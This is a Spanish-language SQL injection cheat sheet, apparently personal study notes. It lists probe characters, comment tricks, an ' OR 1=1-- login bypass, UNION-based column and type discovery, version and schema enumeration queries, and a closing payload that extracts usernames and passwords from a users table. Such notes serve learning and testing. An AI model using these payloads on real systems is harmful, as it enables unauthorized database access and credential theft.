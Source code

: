 # ATAQUE: SQL INJECTION

## IDENTIFICAR LA VULNERABILIDAD

' | *simbolo comun para testear si existe SQLi o no.*

" | *simbolo comun para testear si existe SQLi o no.*

' -- | *simbolo comun para testear si existe SQLi o no.*

## COMENTARIOS "ignora"

-- | *dentro del lenguaje de SQL query, sirve para comentar de manera que todo lo que este despues de los simbolos, se ignora.* \
ex: SELECT [columns] FROM products WHERE category = 'Gifts'--' AND released = 1

'#' | *dentro del lenguaje de SQL query "#", sirve para comentar de manera que todo lo que este despues del simbolo, se ignora.* \
ex: SELECT [columns] FROM products WHERE category = 'Gifts'#' AND released = 1

## LOGIC BYPASS 

' OR 1=1-- | *sirve para crear una consulta a un resultado booleano, de manera que el inicio de la consulta es leido, el resto no ya que
es siempre TRUE.* \
ex: SELECT [columns] FROM products WHERE category = 'Gifts' OR 1=1-- AND released = 1

USER-- | *cuando se tiene un usuario se podria probar la vulnerabilidad tratando de ver si hace bypass sin ingresar la contrasena.*

## UNION ATTACK

**PRE-REQ:** *numero de columnas y data type de cada columna*

#### COMO SABER EL NUMERO DE COLUMNAS ?

**METODO_1:** ' ORDER BY 1-- \
**METODO_2:** ' UNION SELECT NULL--

#### COMO SABER EL DATA TYPE DE UNA COLUMNA ?

> Microsoft, MySQL & PostgreSQL

' UNION SELECT 'a',NULL,NULL,NULL-- \
' UNION SELECT NULL,'a',NULL,NULL-- | >> se tiene que hacer iterativo cambiando los campos para saber que tipo son.

> Oracle

' UNION SELECT 'a','a' from DUAL--

#### IDENTIFICAR INFORMACION DEL MOTOR DE BASE DE DATOS [TIPO/VERSION] 

**Microsoft** >> SELECT @@version \
**MySQL** >> SELECT @@version \
**Oracle** >> SELECT banner FROM v$version | SELECT version FROM v$instance \
**PostgreSQL** >> SELECT version() 

#### LISTAR TABLAS DE LA BASE DE DATOS / [[Microsoft](https://learn.microsoft.com/en-us/sql/relational-databases/system-information-schema-views/tables-transact-sql?view=sql-server-ver16) | [MySQL](https://dev.mysql.com/doc/refman/8.0/en/information-schema-table-reference.html) | [PostgreSQL](https://www.postgresql.org/docs/current/infoschema-tables.html)] 

SELECT [columns] FROM information_schema.tables \
SELECT [columns] FROM information_schema.columns \
SELECT [columns] FROM information_schema.columns WHERE table_name = 'users_qmwbqm' 

#### LISTAR TABLAS DE LA BASE DE DATOS / [[Oracle](https://docs.oracle.com/en/database/oracle/oracle-database/19/refrn/ALL_TABLES.html)] 

SELECT [columns] FROM all_tables \
SELECT [columns] FROM all_tab_columns WHERE table_name = 'USERS' 

#### MOSTRAR INFORMACION DE OTRAS TABLAS 

' UNION SELECT username, password FROM users-- | *retrieve the username and password from table "users"*




